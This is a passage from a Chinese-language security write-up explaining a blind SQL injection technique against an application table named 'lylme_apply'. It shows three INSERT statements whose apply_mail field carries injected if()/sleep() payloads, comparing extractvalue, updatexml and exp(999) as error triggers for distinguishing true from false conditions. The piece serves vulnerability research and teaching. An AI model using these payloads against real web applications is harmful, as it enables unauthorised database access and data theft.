 [![](assets/1701606448-7a35c96817332fd73012fd7b691f63e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135311-3fbf0446-8ce9-1.png)

## 巧妙利用报错特性

  那么有没有办法，让他判断不等于的时候，让`if`的第二个条件出错呢？这里又涉及到一个很巧的 trick，报错很多人第一时间想的是`updatexml`、`extractvalue`这些非常经典的报错语句，但是这个由于执行顺序不同，会比`if`优先执行报错，这样子无论正确与否都会导致错误，没办法做区分，这个时候就可以用到`exp(999)`来绕过这个限制

```plain
# extractvalue
 INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),extractvalue(1,user()))>'', '2023-10-07 22:14:25', '0');

 # updatexml
 INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),updatexml(1,user(),0))>'', '2023-10-07 22:14:25', '0');

# exp(999)
INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),exp(999))>'', '2023-10-07 22:14:25', '0');
```
